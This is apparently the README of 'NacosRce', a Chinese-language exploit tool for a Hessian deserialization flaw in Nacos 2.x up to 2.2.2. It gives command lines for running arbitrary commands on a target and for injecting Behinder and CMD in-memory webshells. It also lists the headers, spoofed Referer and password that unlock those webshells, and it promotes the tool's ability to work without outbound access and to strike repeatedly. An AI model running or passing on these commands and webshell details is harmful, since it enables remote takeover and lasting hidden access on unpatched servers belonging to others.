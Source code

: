 # NacosRce



```text

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
                                          

```

Nacos Hessian 反序列化漏洞利用工具 v0.2
Author: 刨洞安全 && 凉风
** 食用方式 **
执行无回显命令	
java -jar NacosRce.jar ip:port "[command]"
同时注入冰蝎&&CMD内存马(推荐)
java -jar NacosRce.jar ip:port memshell


冰蝎内存马使用方法：
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
CMD内存马使用方法：
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令

v0.2版本实现了：
1、不出网漏洞利用
2、可多次发起漏洞利用
3、注入冰蝎/CMD内存马
tips:
1、请用jdk1.8
2、适用于 Nacos 2.x <= 2.2.2
3、非集群的也能打哦


参考
https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/
https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/
https://github.com/Y4er/ysoserial
